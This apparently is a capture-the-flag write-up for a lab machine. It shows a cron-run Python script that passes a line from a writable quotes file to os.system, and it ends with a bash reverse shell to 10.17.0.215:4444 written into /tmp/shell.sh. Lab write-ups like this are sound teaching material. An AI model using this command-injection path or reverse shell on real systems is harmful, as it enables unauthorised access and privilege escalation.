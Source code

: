 ```console

         __________
        /\____;;___\
       | /         /
       `. ())oo() .
        |\(%()*^^()^\
       %| |-%-------|
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
weston@national-treasure:~$ ls
weston@national-treasure:~$ pwd
/home/weston

```

- When I was searching for user flag I was prompted with message.

```text
Broadcast message from cage@national-treasure (somewhere) (Tue Nov  1 05:21:01

Guns and wine. Naughty priests. — Ghost Rider: Spirit of Vengeance

```

- This seems to be cronjob by user cage.
- Located files with owner `cage` and find two files

```console
weston@national-treasure:~$ find / -type f -user cage 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```

- On reading this python file found out that it is having `os,system` function, this means we can execute command inside the .quotes file.

```python
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

- We have writing rights for the `.quotes` file.
- Made a shell file in `/tmp` directory

```console
weston@national-treasure:/tmp$ cat > shell.sh << EOF
> #!/bin/bash
> bash -i >& /dev/tcp/10.17.0.215/4444 0>&1
> EOF
weston@national-treasure:/tmp$ cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.17.0.215/4444 0>&1
```
